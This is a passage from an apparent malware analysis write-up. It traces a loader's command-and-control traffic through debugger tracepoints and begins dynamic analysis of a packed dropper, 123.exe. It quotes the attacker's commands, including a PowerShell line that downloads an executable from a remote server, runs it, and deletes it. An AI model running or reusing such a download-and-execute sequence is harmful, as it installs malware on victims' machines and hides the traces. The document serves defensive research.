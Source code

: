 As I learned in a great video from [DuMp-GuY TrIcKsTeR](https://www.youtube.com/watch?v=yxw4h82mQ2s), breakpoints can be converted into "tracepoints", which can evaluate conditional expressions, perform filtering, and log messages either to the console or to the file system.

Here is an example of the formatting of a tracepoint log message:
```string
$FUNCTION Response_String: {response_struct.Data} {System.IO.File.AppendAllText("C:\\Users\\<user>\\log.txt","ResponseID\n"+response_struct.ID + "\nResp_UUID\n"+response_struct.UUID+"\nresp_data\n"+response_struct.Data+"\n")}
```

With the tracepoints in place, I can now execute the loader, sit back, and hope the server is still live. 
### Server Response
The first call to the C2 contained the following content:
```String
ID --> uVX1bTFdMmzgD2nW
UUID --> NULL
data --> <b64_rc4enc_string> --> (decoded & decrypted: "register uVX1bTFdMmzgD2nW DESKTOP-JRFM9FE DESKTOP-JRFM9FE\<user>")
```
The server responded immediately with:
```String
Response_ID --> uVX1bTFdMmzgD2nW
Response_UUID --> 25caaa27-f98f-41a8-b3e2-e3b86f2e45ba
Response_Data(decrypted) --> whoami
```
My victim machine executed the `whoami` command, encrypted the response, and sent it back to the C2.  

After this, the `c2_comms` method executed once every 75 seconds, but the C2 did not respond again for several hours.

Roughly eight hours later, this series of commands was issued from the remote server:
```String
ls c:\
$clients1 = new-object System.Net.WebClient;$clients1.DownLoadFile('http://ec2-18-191-188-207.us-east-2.compute.amazonaws.com/T7YHUE/123',"c:\programdata\123.exe");
c:\programdata\123.exe
systeminfo
rm -r c:\programdata\123.exe
```
My victim machine is a VM and I didn't make any attempts to alter the responses to the commands, so the result of `systeminfo` will have alerted the TA that the victim is likely a sandbox or a researcher. I let the beacon run for a few more hours, but the server never responded again.

No matter, I still have the URI for the next stage. I can download the `123.exe` file and continue analysis in the next section.
## Dropper: 123.exe
DetectItEasy noted high entropy (7.25), and indicated the binary was packed.  

Just to get a feel for what I was dealing with, I started with some dynamic analysis. 
### Dynamic Analysis
With ProcessMonitor running, I executed the `123.exe` binary and observed it spawning the `C:\Windows\Microsoft.NET\Framework\v4.0.30319\AppLaunch.exe` process. 
